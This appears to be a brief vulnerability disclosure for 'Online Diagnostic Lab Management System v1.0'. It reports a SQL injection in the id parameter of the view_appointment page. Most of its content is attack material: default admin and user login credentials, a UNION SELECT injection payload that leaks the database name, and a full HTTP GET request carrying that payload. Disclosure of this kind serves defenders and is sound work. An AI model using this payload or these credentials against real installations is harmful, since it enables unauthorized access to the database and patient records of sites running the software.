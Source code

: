 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Happyd99

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /odlms/?page=appointments/view_appointment&id=

Vulnerability location: /odlms/?page=appointments/view_appointment&id=,id

dbname=odlms_db,length=8

[+] Payload: /odlms/?page=appointments/view_appointment&id=-5%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13--+ // Leak place ---> id

```sql
GET /odlms/?page=appointments/view_appointment&id=-5%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191254094-fbd25f4b-ebd2-4e9d-8412-ee5cb2092039.png)

